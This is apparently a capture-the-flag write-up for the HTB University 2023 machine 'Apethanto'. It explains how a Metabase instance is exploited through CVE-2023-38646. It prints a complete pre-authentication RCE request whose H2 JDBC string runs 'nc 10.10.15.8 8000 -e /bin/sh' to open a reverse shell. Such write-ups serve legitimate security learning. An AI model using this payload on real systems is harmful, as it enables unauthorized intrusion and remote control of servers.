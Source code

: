 ```yaml
---
title: Apethanto
date: 2023-12-10T14:21:20+02:00
description: Writeup for Apethanto [HTB University 2023]
author: H0N3YP0T
tags:
- fullpwn
- web
draft: false
---
```

___

## Intuition

We first arrive into a website which seems to be static. But after inspecting the source code we noticed a link to a `metabase` vhost.
After adding the vhost to my `/etc/hosts` file, I was able to access the metabase instance.
![website](/images/HTB_University_2023/apethanto.png)
![website](/images/HTB_University_2023/metabase.png)

After some research, I found out that the metabase instance was vulnerable to CVE-2023-38646, a pre-authentication RCE vulnerability.

## Solution

In order to exploit the vulnerability I first created an `nc` server on my machine to be able to RCE and I used the following payload:

```http request
POST /api/setup/validate HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 734


{
    "token": "819139a8-1ce9-46f0-acf8-9b4fc0d1164b",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
  "details": {
            "advanced-options": true,
            "classname": "org.h2.Driver",
            "subname": "mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd})\\;}$$\\;CALL SHELLEXEC('nc 10.10.15.8 8000 -e /bin/sh');",
            "subprotocol": "h2"
        },
"engine": "postgres",
        "name": "x"
    }

}
```

After running the payload, I received a reverse shell on my machine and I was able to read the flag in `/home/metabase/user.txt`.



